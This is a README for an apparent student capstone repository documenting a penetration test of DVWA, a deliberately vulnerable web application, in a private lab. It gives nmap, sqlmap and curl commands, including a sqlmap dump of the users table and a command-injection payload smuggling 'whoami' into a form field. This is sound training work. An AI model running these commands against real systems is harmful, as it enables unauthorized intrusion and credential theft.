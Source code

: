 # dvwa-pentest-report

Minimal repository for the DVWA penetration test capstone. Drop these files into a folder named `dvwa-pentest-report/` and replace placeholders with your real data where noted.

## Files
- `nmap_web.txt` — nmap service/version scan output for the target.
- `sqlmap_output.txt` — example sqlmap dump output. Replace with your actual sqlmap results.
- `README.md` — this file.

## How to reproduce the key steps (commands)

1. Recon / port scan (on Kali):

```bash
nmap -sV -p 21,22,80,3306 192.168.56.102 -oN nmap_web.txt
```

2. Login to DVWA in your browser with `admin` / `password`. Set DVWA security to **Low**.

3. SQL Injection (sqlmap):

```bash
# Option A: provide PHPSESSID cookie from your browser
sqlmap -u "http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="security=low; PHPSESSID=YOUR_SESSION_ID" --batch --dbs

# Dump users table
sqlmap -u "http://192.168.56.102/dvwa/vulnerabilities/sqli/?id=1&Submit=Submit" \
  --cookie="security=low; PHPSESSID=YOUR_SESSION_ID" -D dvwa -T users --dump --batch
```

4. Command Injection evidence capture (curl):

```bash
curl -s -b "security=low; PHPSESSID=YOUR_SESSION_ID" \
  -d "ip=127.0.0.1; echo START; whoami; echo END" \
  http://192.168.56.102/dvwa/vulnerabilities/exec/ -o resp_cmdinj.html

# extract between markers
sed -n '/START/,/END/p' resp_cmdinj.html | sed '1d;$d' | sed 's/<[^>]*>//g' > cmdinj_extraction.txt
```

5. Evidence to include in final report:
- `nmap_web.txt` (scan results)
- `sqlmap_output.txt` (dumped rows or saved sqlmap output)
- `resp_cmdinj.html` and `cmdinj_extraction.txt` (command injection proof)
- Screenshots of DVWA login, SQLi exploitation, and Command Injection output

## Notes
- Replace `YOUR_SESSION_ID` with the actual PHPSESSID from your browser cookies if DVWA requires authentication.
- Keep this testing confined to your isolated lab network (e.g., VirtualBox host-only 192.168.56.0/24). Do not run these tests against systems you do not own or have permission to test.
```

---



**How to use:**
1. Create a new folder on your machine named `dvwa-pentest-report`.
2. Copy the contents of each file above into three files named exactly as shown (`nmap_web.txt`, `sqlmap_output.txt`, `README.md`).
3. Replace placeholders (`YOUR_SESSION_ID`, IP addresses, and timestamps) with your real data and add screenshots to the folder before zipping or pushing to GitHub.
